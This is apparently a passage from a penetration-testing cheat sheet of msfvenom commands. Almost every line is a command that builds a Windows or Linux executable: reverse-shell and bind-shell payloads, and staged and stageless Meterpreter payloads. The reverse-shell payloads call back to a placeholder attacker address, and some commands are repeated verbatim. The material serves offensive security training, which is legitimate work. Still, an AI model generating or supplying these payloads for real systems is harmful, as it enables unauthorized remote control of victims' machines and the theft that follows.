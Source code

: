 #### Reverse Shell Payloads
Reverse shell payloads connect back to the attacker when executed, making them ideal for situations where firewalls block inbound connections but allow outbound connections.

1. **Windows Reverse Shell (TCP):** Generates a reverse TCP shell payload for Windows.
	```bash
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f exe -o shell.exe
	```
2. **Linux Reverse Shell (TCP):** Creates a reverse TCP shell for Linux systems in ELF format.
	```bash
	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f elf -o shell.elf
	```

#### Bind Shell Payloads
Bind shell payloads create a listener on the target machine and wait for the attacker to connect to it.

1. **Windows Bind Shell (TCP):**
	```bash
	msfvenom -p windows/shell_bind_tcp LHOST=<target_ip> LPORT=<target_port> -f exe -o bind_shell.exe
	```
2. **Linux Bind Shell (TCP):**
	```bash
	msfvenom -p linux/x86/shell_bind_tcp LHOST=<target_ip> LPORT=<target_port> -f elf -o bind_shell.elf
	```

### Staged vs. Stageless Payloads
1. **Staged Payload:** A smaller payload that fetches the rest of the malicious code after execution.
	```bash
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f exe -o staged_payload.exe
	```
2. **Stageless Payload:** The entire payload is delivered in one go, avoiding the need for multiple network connections.
	```bash
	msfvenom -p windows/meterpreter_reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f exe -o stageless_payload.exe
	```

## Format Options

1. **List Format:**
	```bash
	msfvenom -l format
	```

#### Executable File Formats
1. **Windows EXE**
	```bash
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f exe -o shell.exe
	```
2. **Linux ELF**
	```bash
	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f elf -o shell.elf
	```
